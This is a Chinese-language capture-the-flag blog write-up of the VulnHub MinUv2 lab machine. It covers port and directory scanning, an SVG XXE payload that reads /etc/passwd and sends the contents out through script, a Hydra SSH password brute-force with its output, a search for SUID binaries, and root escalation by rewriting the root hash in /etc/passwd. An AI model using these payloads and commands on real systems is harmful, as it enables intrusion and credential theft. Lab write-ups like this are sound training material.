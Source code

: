 ```yaml
---
layout: post
toc: true
title: "「渗透」SVG的神秘力量：minUv2"
date: 2019-09-01
author: Bin4xin
categories: blog
tags:
- Web
- 漏洞复现
- 渗透
- vulnhub
---
```


- categories:
    - blog
    - Web
    - 漏洞复现
    - 渗透
    - vulnhub

# 序言
hello,各位。最近闲来无事，工作之余偷偷用公司电脑测试入侵了一个linux靶机，遂记录下。（手动狗头）
这个靶机本身难度适中，复现了svg的代码执行漏洞且要求对linux的系统命令较为熟悉；svg大体来说是一种图像文件格式，基于XML，由W3C联盟进行开发的，支持网页打开，编辑方便等。可以自行深入搜索~各位大佬见笑。
## 一、靶机简介
minUv2下载地址:

<a href="https://download.vulnhub.com/minu/MinUv2.ova.7z">Download (Mirror)</a>

<a href="https://download.vulnhub.com/minu/MinUv2.ova.7z.torrent">Download (Torrent)</a>


## 二、实战
江湖规矩，神器开路：首先先用`Nmap`扫描确定靶机地址。发现靶机ip。
这里靶机只支持vbox，所以得桥接通信，打码请谅解~

![](https://p2.ssl.qhimg.com/t0167faf934cb9977ca.png)

确定ip直接端口扫描~
![](https://p4.ssl.qhimg.com/t011687f39e33bbe3e4.png)
发现只开放了两个端口：`22、3306`端口。22端口暂时先放着不管，咱们看看3306端口。
是一个web页面，emmmm.主角登场，svg图像~
![](https://p0.ssl.qhimg.com/t019035849ce7a48ccf.png)

## 三、发现漏洞
小弟赶紧dirb扫描一波，果然有发现。

```
#扫描3306端口下的html后缀的文件
dirb http://$_ip:port -X .html
--------------
+ http://$_ip:port/upload.html (CODE:200|SIZE:908)
--------------
DOWNLOADED: 4612 - FOUND: 1
```
发现了上传网页，且只能上传svg、img文件，又惊又喜。exp搜索一哈找到poc，验证一下漏洞的存在。poc代码如下：
```
#poc上传上去页面回显
#<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY xxe SYSTEM "/etc/passwd">
]>
<svg version="1.0" xmlns="http://www.w3.org/2000/svg" width="19000px" xmlns:xlink="http://www.w3.org/1999/xlink" >
<text x="-1000" y="-1000" >&xxe;</text>
<circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" 		fill="red" />
<script>
var logger = "http://localhost/?file=" +
encodeURIComponent(document.getElementsByTagName("text")	[0].innerHTML);
document.createElementNS('http://www.w3.org/2000/svg','image').setAttributeNS('http://www.w3.org/1999/xlink','href', logger);
</script></svg>
```

果然有`xxe`漏洞，但是验证了漏洞不能让我们有实际的渗透进展，只能对一些文件内容进行查看，无法得到shell，要怎么办呢？

![](https://p1.ssl.qhimg.com/t0163eb735e597071e2.png)

## 四、get shell
就在小弟愁眉苦脸的时候，忽然看到最后一行用户名的进程是/bin/ash，想到bash shell会有历史纪录，赶紧重新上传一个poc验证想法。回显内容：<br>
```
"./ash.history"获取~
Useradd –D bossdonttrackme –p superultrapass3
```
根据所得的内容生成用户字典（passwd回显的用户名），密码字典。用Hydra跑一下。
```
##hydra -L /root/Documents/test/minu/use.txt -P /root/Documents/test/minu/passwd.txt ssh://$_ip
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or 
secret service organizations, or for illegal purposes.
[WARNING] Many SSH configurations limit the number of parallel tasks, it is
recommended to reduce the tasks: use -t 4	[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:30/p:1), ~2 tries per task
[DATA] attacking ssh://$_ip:22/
[22][ssh] host: $_ip ** login: employee password: superultrapass3**
1 of 1 target successfully completed, 1 valid password found
##跑出来账号密码employee：uperultrapass3，ssh连上去。
##连接上去查看一下基本信息 
ssh employee@ip
whoami
id | find -perm -4000 2>/dev/null
```
![](https://p5.ssl.qhimg.com/t013dbd6663c5c9720e.png)

## 五、提权
发现`micro`和`bbsuid`不需要高权限，运行一下，发现micro是一个`文本编辑工具器`。接下来就简单了。
```
#生成一份hash值，替换掉passwd的用户密码，这样密码就已知了。
#用micro编辑器打开passwd文件，替换root密码保存即可
passwd -1 -salty root admin123(随意)
cat /etc/passwd |/usr/bin/micro
```
![](https://p5.ssl.qhimg.com/t0198aaa755e6394b0f.png)

这样我们就已知root密码了，直接切换用户
```
minuv2:~$ su root
Password: 
minuv2:/home/employee# whoami
root
minuv2:/home/employee#
```
![](https://p2.ssl.qhimg.com/t01aefe59b403bdcc5c.png)
获得flag~感谢各位

